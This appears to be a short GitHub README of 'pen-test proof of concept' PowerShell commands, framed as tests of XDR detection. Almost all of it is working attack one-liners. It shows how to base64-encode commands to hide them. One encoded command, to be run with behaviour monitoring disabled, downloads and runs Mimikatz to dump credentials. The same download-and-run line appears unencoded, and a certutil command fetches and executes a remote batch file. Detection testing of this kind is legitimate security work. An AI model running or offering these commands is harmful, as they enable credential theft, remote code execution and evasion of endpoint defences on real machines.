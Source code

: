 # Pen-test proof of concept code 

## converting to Base64 encoded string
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

## running the encoded command with powershell
powershell.exe -encoded $Encoded

## mimikatz powershell encoded.bat win10 compatible, disable behavior monitoring to test xdr, open cmd prompt and paste code below
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsA


## original mimikatz powershell not encode win10 compatible, open cmd prompt and paste code below
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m


## test xdr 2, open cmd prompt and paste code below
certutil.exe -urlcache -f https://raw.githubusercontent.com/chackco/poc/master/testxdr.bat.txt c:\testxdr.bat && c:\testxdr.bat
